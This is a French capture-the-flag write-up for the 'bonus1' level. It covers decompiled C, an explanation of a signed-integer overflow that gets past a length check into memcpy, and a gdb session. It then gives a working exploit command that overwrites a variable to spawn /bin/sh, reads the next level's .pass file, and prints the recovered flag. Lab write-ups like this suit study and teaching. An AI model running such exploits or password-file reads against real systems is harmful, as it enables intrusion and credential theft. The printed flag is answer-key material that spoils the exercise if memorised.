

Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0

```c
/** address: 0x08048424 */
int main(int argc, char *argv[])
{
	int num;
	char dest[40];

	num = atoi(argv[1]);
	if (num > 9)
    	   return 1;

       memcpy(&des, argv[2], num * 4); // ici on a un unsigned int
    	if (num == 0x574f4c46)
          execl("/bin/sh", "sh");

	return 0;
}
```

# Explication

Alors :

 - Le premier argument doit être inférieur à 9 ;
 - Utilisation de memcpy sur le 2eme argument (donc c’est argv[2] qui va servir d’exploit).
 - La variable qui contenait le premier argument, doit devenir égale à 0x574f4c46, soit 1464814662.
   Ou sinon on doit profiter du buffer overflow pour écrire sur la pile (ce qui est possible car le
   programme fait mov %eax,(%esp)).



Code d'exemple, pour faire un overflow avec atoi et la multiplication par 4 : 

Pour `run  $(python -c 'print "-" + str(2 ** 32 / 4)') a`

On aurait :

```c
#include <stdio.h>
#include <math.h>

int main() {
    unsigned int n;
    n = ((unsigned int) pow(2, 32)) / -4 - 1 * 4 + 4;
    printf("%lu\n", n * 4);
}

/*
Program returned: 0
Program stdout
4
*/
```
https://godbolt.org/

On fait un premier test pour obtenir les infos qu'on veut avec `i r` :

```
(gdb) run  $(python -c 'print "-" + str(2 ** 32 / 4 - 8)') aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[...]
Breakpoint 1, 0x08048468 in main ()
(gdb) ls
Undefined command: "ls".  Try "help".
(gdb) c
Continuing.

Breakpoint 2, 0x08048478 in main ()
(gdb) i r
eax         0xbffff6d4    -1073744172    <= pointeur destination de memcpy
ecx         0x20  32
edx         0xbffff6f4    -1073744140
ebx         0xb7fd0ff4    -1208152076
esp         0xbffff6c0    0xbffff6c0
ebp         0xbffff708    0xbffff708
esi         0x0   0
edi         0x0   0
eip         0x8048478     0x8048478 <main+84>
eflags      0x200283 [ CF SF IF ID ]
cs          0x73  115
ss          0x7b  123
ds          0x7b  123
es          0x7b  123
fs          0x0   0
gs          0x33  51
(gdb) p (char *)$eax
$10 = 0xbffff6d4 'a' <repeats 32 times>
(gdb)

run  "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"
```

Le premier bit d’un int est le signe https://fr.wikipedia.org/wiki/Bit_de_signe , en passant négatif (signed bit = 1)
et en cherchant le MAX_INT, on va pouvoir faire un dépassement de valeur, grâce à la multiplication par 4. La variable
de destination de memcpy est un char de taille 40, on souhaite donc que memcpy copie 44 bits. On remplit le deuxième
argument avec 40bits, on inverse le byte order de la valeur 1464814662 (0x574f4c46). Et le travail est fait !

```
./bonus1 "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"

cat /home/user/bonus2/.pass
```

Le flag est donc :

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
